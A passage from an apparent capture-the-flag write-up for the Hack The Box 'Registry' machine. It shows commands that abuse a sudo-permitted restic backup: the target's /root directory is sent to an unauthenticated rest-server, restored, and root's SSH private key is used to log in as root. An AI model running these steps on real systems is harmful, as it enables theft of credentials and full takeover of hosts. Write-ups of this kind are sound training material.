 Initializing a **restic repository** on local client:
```
restic init -r ./restic/
```

Setting up **restic server** in a Docker container:
```
docker run -p 8000:8000 -v /root/Documents/htb/boxes/registry/restic/:/restic -it restic/rest-server sh
```

Starting the server on Docker container:
```
/ # rest-server --path /restic --no-auth
```

Backing up the _/root_ directory from the box:
```
sudo restic backup -r rest:http://127.0.0.1:8000/ /root
```

After it finishes, restoring the files from the _restic repository_ to a new directory:
```
mkdir restore

restic -r restic/ restore latest --target restore/
```

There are now the backup files in _restore/root_ with the root flag and an SSH key in _root/.ssh_:
```
chmod 600 id_rsa

ssh -i id_rsa 10.10.10.159
```

The SSH key works and logs us into the box as root!

